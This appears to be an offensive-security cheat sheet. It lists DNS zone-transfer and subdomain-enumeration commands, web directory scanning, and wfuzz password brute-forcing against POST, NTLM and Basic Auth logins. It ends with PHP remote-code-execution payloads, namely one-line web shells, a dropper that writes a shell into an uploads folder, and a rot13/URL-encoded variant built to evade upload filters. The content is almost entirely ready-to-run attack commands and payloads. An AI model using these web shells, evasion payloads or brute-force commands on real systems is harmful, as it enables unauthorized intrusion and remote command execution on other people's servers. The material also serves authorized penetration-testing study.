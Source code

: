 #### Port 53 open

* add the IP and a domain name to your `/etc/hosts` files
* try a zone transfer:

```sh
host -l <DOMAIN> <IP>
dig axfr @SRHOST <DOMAIN>
dnsrecon -d <DOMAIN>
```

* enumerate subdomains:

```sh
amass enum --passive -d <DOMAIN>
sublist3r -d <DOMAIN> -t 3 -e bing
```

#### Port 80 open

* Web-service running, use `dirb`, `nikto` or `gobuster` to get the most information as possible.

*Examples*:

* `dirb http://IP -r`
* `gobuster dir -w DICT -t 30 -x php,txt,js,html,css` You can use `-f` to try folders instead of files
* if you plan to bruteforce, try generate wordlist with `CeWL`
* if it's a Wordpress instance look into `wpscan`
* sometimes an open FTP is also a feature from a running IIS instance which comes with a CalDav instance. Try it out with `davtest` and exploit with `cadaver`
* `dirsearch big.txt -e sh,txt,htm,php,cgi,html,pl,bak,old`

##### WFUZZ

```sh
# POST
wfuzz --hc 404 -c -z list,admin -z file,/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php

# NTLM
wfuzz -c --ntlm "admin:FUZZ" -z file,/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api

# Basic Auth through Proxy
wfuzz -c --hc 404,400,401 -z file,/Audits/Activos/names.txt -z file,/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/
```

##### PHP RCE

test:

```
<?php phpinfo(); ?>
```

simple shell:
```
<?php system($_GET["c"]); ?>

<?php `$_GET["c"]`; ?>
```
file upload:
```
<?php file_put_contents('/var/www/html/uploads/test.php', '<?php system($_GET["c"]);?>'); ?>
```
file upload evasion: rot13 + urlencode
```
<?php $payload="%3C%3Fcuc%20flfgrz%28%24_TRG%5Bp%5D%29%3B%3F%3E"; file_put_contents('/var/www/html/uploads/test8.php', str_rot13(urldecode($payload))); ?>
```